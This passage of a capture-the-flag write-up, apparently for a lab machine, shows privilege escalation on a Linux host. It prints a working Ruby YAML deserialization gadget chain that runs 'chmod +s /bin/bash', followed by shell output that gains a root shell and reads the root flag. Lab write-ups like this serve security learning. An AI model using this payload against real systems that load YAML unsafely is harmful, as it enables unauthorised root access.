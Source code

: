 ```shell
henry@precious:/opt$ cat sample/dependencies.yml
cat sample/dependencies.yml
yaml: 0.1.1
pdfkit: 0.8.6
```

Searching, we found a [Ruby YAML load vulnerability](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) when loading a yml file, so change the yml to give the suid bit to `/bin/bash`:

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
```

![](../assets/Pasted%20image%2020250508134107.png)

Switch to `root`:

```shell
henry@precious:~$ /bin/bash -p
bash-5.1# whoami
root
```

## Post Exploitation

Get the flag:

```shell
bash-5.1# cat root.txt
3e38cedfe78832fffb4d9068f474e229
```
